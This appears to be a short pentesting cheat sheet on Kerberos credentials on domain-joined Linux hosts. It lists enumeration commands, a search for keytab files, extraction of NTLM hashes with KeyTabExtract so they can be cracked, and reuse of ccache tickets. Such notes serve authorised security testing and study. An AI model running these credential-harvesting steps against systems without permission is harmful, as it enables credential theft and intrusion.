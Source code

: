 ### Linux
##### Enumeration
```shell
# Checking for domains
realm list # list joined domains
ps -ef | grep -i "winbind\|sssd" # check if domain joined

# Finding keys
find / -name *keytab* -ls 2>/dev/null
crontab -l
env | grep -i krb5
ls -la /tmp
```
##### Extracting KeyTabs
Use this tool: [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)
```shell
python3 /opt/keytabextract.py <keyfile>
```

This will provide us an NTLM hash that we can crack now.
##### Using CCache Files
```shell
export KRB5CCNAME=<path>
```


---
Navigation: [[Pentesting]]